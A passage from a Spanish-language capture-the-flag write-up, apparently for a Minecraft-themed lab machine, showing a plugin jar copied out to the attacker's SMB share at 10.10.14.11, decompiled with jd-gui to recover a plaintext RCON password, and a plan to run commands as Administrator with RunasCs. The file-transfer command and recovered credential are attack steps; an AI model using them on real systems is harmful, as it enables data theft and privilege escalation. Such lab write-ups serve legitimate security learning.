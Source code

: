 Se le indica al servidor que lo reconozca como una nueva montura haciendo uso de las **credenciales** que se le asignaron anteriormente.

```bash
net use n: \\10.10.14.11\share /user:madlies madlies
```
{: .nolineno}

Y se transfiere el archivo de forma satisfactoria.

```bash
c:\Users\svc_minecraft\server\plugins>copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.11\share   
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.11\share   
        1 file(s) copied.
```
{: .nolineno}


```bash
ls
 jdk1.8.0_20              Dockerfile      jdk-8u202-linux-x64.tar.gz       poc.py             structure
 target                   Exploit.class   LICENSE                          README.md         
 vulnerable-application   Exploit.java    playercounter-1.0-SNAPSHOT.jar  󰌠 requirements.txt  
```
{: .nolineno}


Ahora se puede hacer uso de **jd-gui** para decompilar el archivo y ver si hay algo interesante dentro de él.



```bash
jd-gui playercounter-1.0-SNAPSHOT.jar
```
{: .nolineno}

Al revisar el código, se puede ver que hay una función que recibe los parámetros: **host**, **puerto** y **contraseña**. Por lo que si se encuentra dónde se llama esa función, se puede encontrar una posible contraseña para algún usuario dentro de la máquina.

![rcon](/crafty/rcon.png)

Por lo que al encontrar la función **RCON**, se encuentra una posible contraseña.

![password](/crafty/password.png)

```bash
s67u84zKq8IXw
```
{: .nolineno}

Con todo esto, se puede hacer uso de la herramienta **RunasCS**, que sirve para ejecutar comandos como otro usuario dentro de la máquina si se cuenta con credenciales válidas. Por lo que se puede probar con estas credenciales para intentar ejecutar comandos como **Administrator**. Para descargar el binario directamente compilado, se puede hacer uso del repositorio **SharpCollection**.


![cs](/crafty/cs.png)

